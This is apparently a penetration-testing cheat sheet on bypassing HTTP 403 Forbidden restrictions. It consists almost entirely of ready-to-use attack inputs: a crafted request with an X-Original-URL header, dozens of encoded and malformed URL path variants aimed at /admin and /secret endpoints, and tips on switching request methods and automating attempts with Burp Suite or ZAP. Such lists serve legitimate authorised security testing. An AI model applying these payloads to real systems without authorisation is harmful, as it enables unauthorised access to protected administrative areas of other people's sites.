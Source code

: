 ```yaml
---
 
### Bypass 403 (Forbidden) Techniques
#### 1. Using Headers
- **X-Original-URL Header**:
  - Request:
    ```
    GET /anything HTTP/1.1
    Host: target.com
    X-Original-URL: /admin
    ```

#### **2. URL Manipulation**
- **Appending %2e**:
  - Original URL: `http://target.com/admin` → 403
  - Bypass URL: `http://target.com/%2e/admin` → 200

- **Adding Dots, Slashes, and Semicolons**:
  - `http://target.com/secret/.` → 200
  - `http://target.com//secret//` → 200
  - `http://target.com/./secret/.` → 200
  - `http://target.com/:/secret` → 200
  - `http://target.com/.i/secret` → 200
  - `http://target.com//;//secret` → 200

#### **3. Changing Request Method**
- Change the request method from **GET** to **TRACE** (or other methods like POST, HEAD, OPTIONS).

#### **4. URL Variations**
- `url.com/admin/?`
- `url.com//admin//`
- `url.com///admin///`
- `url.com/./admin/.`
- `url.com/admin?`
- `url.com/admin%20?`
- `url.com/admin%20/`
- `url.com/admin/..`
- `url.com/admin/../`
- `url.com/admin/.`
- `url.com/admin/.%20/`
- `url.com/admin/*`
- `url.com/admin//*`
- `url.com/admin/%2f/`
- `url.com/admin/%20`
- `url.com/admin/%20/`
- `url.com/admin/%09`
- `url.com/admin/%09/`
- `url.com/admin/%0a`
- `url.com/admin/%0a/`
- `url.com/admin/%0d`
- `url.com/admin/%0d/`
- `url.com/admin/%25`
- `url.com/admin/%25/`
- `url.com/admin/%23`
- `url.com/admin/%23/`
- `url.com/admin/%26`
- `url.com/admin/%3f/`
- `url.com/admin/#`
- `url.com/admin/#/`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/./admin/`

#### **5. Advanced URL Manipulation**
- `url.com/admin/.json`
- `url.com/admin;`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/..;/admin/`
- `url.com/.;/admin/`
- `url.com/;/admin`
- `url.com//;//admin`
- `url.com/%2e/admin`
- `url.com/admin/..;/`
- `url.com/admin.json`
- `url.com/admin%0a`
- `url.com/admin.css`
- `url.com/admin.html`
- `url.com/admin?id=1`
- `url.com/admin~`
- `url.com/admin/é`
- `url.com/admin/-`
- `url.com/admin/..%3B/`
- `url.com/admin/;%2f..%2F..%2F`
- `url.com/ADMIN`
- `url.com/admin/..\\;/`
- `url.com/ADM+IN/`
- `url.com/admin/*/`
- `url.com/admin\\/\\/`
- `url.com/*/admin`
- `url.com/*/admin/`
- `url.com/ADM+IN`

#### **6. Slash Manipulation**
- Try using variations like `/`, `//`, `\\`, `/\\`, etc.

#### **7. Request Headers**
- Try using all possible request methods (POST, HEAD, OPTIONS, TRACE, etc.).

#### **8. References**
- Exploiting HTTP Parsers Inconsistencies: https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies (Nginx ACL)

---
```


### **Tips**
- Always test different URL encodings and special characters.
- Experiment with various HTTP headers like `X-Original-URL`, `X-Rewrite-URL`, etc.
- Use tools like Burp Suite or ZAP to automate testing of different request methods and headers.

---
